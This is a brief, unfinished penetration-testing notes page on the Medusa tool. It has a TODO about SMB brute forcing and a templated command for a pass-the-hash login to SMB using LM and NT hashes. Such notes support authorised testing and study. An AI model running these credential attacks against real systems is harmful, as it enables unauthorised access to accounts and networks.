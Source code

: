 # Medusa

TODO: Show syntax for brute forcing SMB with Medusa

`$ medusa -u <username>`

- Pass the Hash

`$ medusa -u <username> -p <lm_hash>:<nt_hash> -h <IP> -M smbnt -m PASS:HASH`